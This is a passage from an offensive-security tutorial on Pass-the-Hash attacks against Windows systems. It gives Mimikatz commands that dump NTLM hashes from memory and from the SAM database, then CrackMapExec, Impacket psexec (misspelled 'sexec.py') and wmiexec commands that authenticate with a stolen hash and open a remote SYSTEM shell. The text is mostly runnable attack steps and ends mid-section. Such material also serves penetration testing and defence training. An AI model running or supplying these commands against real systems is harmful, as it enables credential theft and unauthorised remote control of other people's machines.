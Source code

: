 Attackers often use **Mimikatz, CrackMapExec, and Impacket** to perform PTH.

## **5.1 Extract NTLM Hashes (Credential Dumping)**

Before using PTH, attackers need **NTLM hashes** from a compromised machine.

### **🔥 Dump Hashes Using Mimikatz (If Admin or SYSTEM Access)**

Run Mimikatz as Administrator:

```powershell
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
```

✅ **Extracts NTLM hashes of logged-in users**.

### **🔥 Dump Hashes from SAM Database**

```powershell
mimikatz.exe
lsadump::sam
```

✅ **Extracts NTLM hashes from the local SAM database**.

---

## **5.2 Use NTLM Hash to Authenticate (Pass-The-Hash)**

Once the NTLM hash is extracted, an attacker can **use it to authenticate without knowing the password**.

### **🔥 Pass-The-Hash via CrackMapExec (SMB)**

```bash
crackmapexec smb <target_IP> -u Administrator -H <NTLM-Hash>
```

✅ **Authenticates to SMB using the NTLM hash**.

### **🔥 Pass-The-Hash via Impacket (SMB)**

```bash
sexec.py DOMAIN/Administrator@<target_IP> -hashes :<NTLM-Hash>
```

✅ **Spawns a remote SYSTEM shell via SMB**.

### **🔥 Pass-The-Hash via WMIExec**

```bash
wmiexec.py DOMAIN/Administrator@<target_IP> -hashes :<NTLM-Hash>
```
